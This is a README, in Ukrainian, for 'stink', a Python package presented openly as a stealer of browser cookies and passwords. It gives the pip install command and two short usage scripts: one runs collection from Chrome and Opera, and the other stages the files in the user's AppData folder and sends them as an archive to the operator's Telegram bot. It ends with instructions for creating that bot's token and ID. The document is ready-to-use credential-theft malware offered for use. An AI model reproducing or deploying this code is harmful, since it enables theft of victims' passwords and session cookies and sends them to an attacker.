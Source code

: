 # stink

Стіллер кукі та паролей з відправкою в Telegram всього лише в 2 рядки.

## Описание
`stink` в даний момент тільки починає свій розвиток. У майбутньому його функціонал буде розширено.

## Навігація
* [Поточні можливості](#Поточні-можливості)
* [Майбутні можливості](#Майбутні-можливості)
* [Установка](#Установка)
* [Приклад використання](#Приклад-використання)
  * [Стандартний](#Стандартний)
  * [Кастомний](#Кастомний)
* [Налаштування Telegram бота]#Налаштування-Telegram-бота)
  * [Отримання токена](#Отримання-токена)
  * [Отримання айді](#Отримання-айді)

### Поточні можливості
1. Збір кукі та паролів наступних браузерів: Chrome, Opera, Opera GX.
2. Відправлення зібраних даних архівом в Telegram.
3. Виконання в окремому потоці.

### Майбутні можливості
1. Підтримка інших браузерів.
2. Збір інформації про систему.
3. Збір айпі та інше.
 
## Установка

Встановити останню версію можна командою:
```
pip install stink==0.0.3
```

## Приклад використання
### Стандартний
```python
from stink.multistealer import Stealer

Stealer(token="YOUR_TOKEN", user_id=YOUR_ID).run()
```
Стандартний ```Stealer``` запускає збір з усіх доступних браузерів і відправляє зібрані дані архівом вам в Telegram.

### Кастомний
```python
from os import path, mkdir
from getpass import getuser

from stink.browsers.chrome import Chrome
from stink.modules.sender import Sender

user = getuser()

zip_name = f"{user}-st"
storage_path = f"C:/Users/{user}/AppData/"
storage_folder = "files/"


def main():

    mkdir(storage_path + storage_folder)

    Chrome(storage_path, storage_folder).run()
    Sender(zip_name, storage_path, storage_folder, "YOUR_TOKEN", YOUR_ID).run()


if __name__ == "__main__":
    main()
```
В кастомному стіллері потрібно самому прописувати необхідні браузери і шлях для зберігання зібраних даних. Модуль ```Sender``` запакує всі файли в архів і відправить його вам в Telegram.

## Налаштування Telegram бота
### Отримання токена
1. Відкриваємо чат з [BotFather](https://t.me/botfather).
2. Прописуємо команду ```/ newbot```.

<p align="left">
  <a href="">
    <img src="docs/_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Прописуємо назву бота, далі нік з прикладкою ```_bot``` в кінці.

<p align="left">
  <a href="">
    <img src="docs/_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Отриманий токен вставляємо в поле ```"YOUR_TOKEN"``` в скрипті.

### Отримання айді
1. Відкриваємо чат з [Get My ID](https://t.me/getmyid_bot).
2. Прописуємо команду ```/ start```.

<p align="left">
  <a href="">
    <img src="docs/_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Отриманий айді вставляємо в поле ```YOUR_ID``` в скрипті.
